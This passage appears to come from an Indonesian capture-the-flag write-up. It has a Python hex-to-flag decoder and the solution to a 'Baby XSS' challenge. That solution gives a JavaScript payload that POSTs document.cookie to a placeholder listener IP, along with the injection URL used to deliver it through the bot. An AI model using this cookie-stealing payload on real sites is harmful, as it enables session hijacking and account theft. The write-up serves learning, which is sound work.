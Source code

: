 ```py
def to_ascii(hex_string):
   hex_string = hex_string.replace(' ', '')
   ascii_string = bytes.fromhex(hex_string).decode('ascii')
   return ascii_string

# print()
hex = "67 65 6D 61 73 74 69 6B 7B 31 5F 34 6D 5F 73 74 30 6D 70 65 64 5F 5F 5F 5F 68 6D 6D 6D 7D"

flag = to_ascii(hex)
print(flag)
```

**Flag: gemastik{1_4m_st0mped____hmmm}**

[< Scroll to the Top >](#list-of-content)

# Web Exploitation
## Baby XSS

### Description
Aku yang baru belajar XSS menemukan sebuah repo untuk automasi XSS challenge deployment, berikut reponya:

https://github.com/dimasma0305/CTF-XSS-BOT/

Bisakah kalian membantuku untuk melakukan exploitasi XSS sesuai pada repo kode vulnerable yang ada di repository tersebut?

### Solution
Diberikan sebuah website yang memiliki vulnerable XSS. Untuk melakukan exploit kami perlu menyiapkan listener untuk menerima cookies dari Bot XSS yang terdapat pada `/report/`. Berikut exploit yang kami gunakan.

```js
fetch(%27http://XXX.XXX.XXX.XXX:8080/%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27,%20body:document.cookie});
```

Karena website tersebut running menggunakan Docker kami hanya perlu mengubah urlnya menjadi http://proxy/ dan melakukan submit url yang akan mengeksekusi XSS tersebut.

```js
http://proxy/?x=fetch(%27http://XXX.XXX.XXX.XXX:8080/%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27,%20body:document.cookie});
```

![alt](img/baby-xss.png)
